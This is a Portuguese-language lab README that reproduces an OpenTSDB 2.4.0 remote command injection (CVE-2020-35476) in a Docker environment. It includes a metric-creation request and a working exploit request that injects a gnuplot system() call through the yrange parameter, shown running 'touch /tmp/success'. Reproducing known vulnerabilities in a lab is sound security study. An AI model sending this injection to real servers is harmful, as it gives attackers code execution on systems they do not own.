 # OpenTSDB arbitrary commands injection (CVE-2020-35476)

O OpenTSDB é um banco de dados de séries temporais (TSDB) distribuído e escalável escrito sobre o HBase.

Uma vulnerabilidade de execução remota de código ocorre no OpenTSDB até a versão 2.4.0 por meio de injeção de comando no parâmetro yrange. O valor yrange é gravado em um arquivo gnuplot no diretório /tmp. Este arquivo é então executado através do script shell mygnuplot.sh. (tsd/GraphHandler.java tentou evitar injeções de comando bloqueando backticks, mas isso é insuficiente.)

Referências:

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## Ambiente vulnerável

Execute o seguinte comando para iniciar um servidor OpenTSDB 2.4.0:

```
docker-compose up -d
```

Assim que o serviço for iniciado, visite `http://your-ip:4242` para ver a interface web do OpenTSDB.

## Explorar

Você precisa saber o nome de uma métrica antes de explorar esta vulnerabilidade em `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`:
![](1.png)

No entanto, a lista de métricas está vazia.

Felizmente, o `tsd.core.auto_create_metrics` está definido como `true` neste OpenTSDB vulnerável, então você pode criar uma métrica chamada `sys.cpu.nice` através da seguinte solicitação:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

Se pelo menos uma métrica existir e não estiver vazia, a solicitação acima não será necessária.

Envie a seguinte solicitação, onde o valor do parâmetro `m` deve conter um nome de métrica válido:

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](2.png)

`touch /tmp/success` foi executado com sucesso.

![](3.png)
